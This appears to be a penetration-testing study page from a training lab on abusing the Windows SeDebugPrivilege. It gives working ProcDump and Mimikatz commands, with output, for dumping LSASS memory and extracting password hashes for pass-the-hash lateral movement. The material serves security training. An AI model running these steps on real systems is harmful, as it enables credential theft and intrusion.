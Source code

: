 # SeDebugPrivilege
* To run a particular application or service, a user might be assigned the `SeDebugPrivilege` instead of adding the account to administrators group
* Privilege can be assigned via local or domain group policy
* By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures

![alt text](../Images/SeDebugPrivilege.png)

* Log in with user account that has `Debug programs`
* Open elevated shell, we will see `SeDebugPrivilege` is listed

<pre>C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set </pre>

* Create a complete memory dump of the lsass.exe process using Sysinternals ProcDump tool
* Target LSASS process, which stores user credentials after a user logs on to a system

<pre>procdump.exe -accepteula -ma lsass.exe lsass.dmp</pre>  

`procdump.exe` : Executable for ProcDump, a command-line utility from Sysinternals designed for capturing process dumps  
`-accepteula` : Accepts the Sysinternals license agreement, which is useful for scripting and automation purposes  
`-ma` : Switch specifies a full memory dump should be created, including all the memory the process is using  
`lsass.exe` : Name of the process you want to dump  
`lsass.dmp` : Name of the dump file to be created
* We can load this in Mimikatz using the `sekurlsa::minidump` module 
* `sekurlsa::logonPasswords` will gain the NTLM hash of the local administrator account logged on locally
* We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems

* Load the specified LSASS dump file into Mimikatz
<pre>C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'</pre>


* Extracts and displays logon session information, including plaintext passwords, NTLM hashes, and Kerberos tickets form the loaded minidump

<pre>mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...</pre>
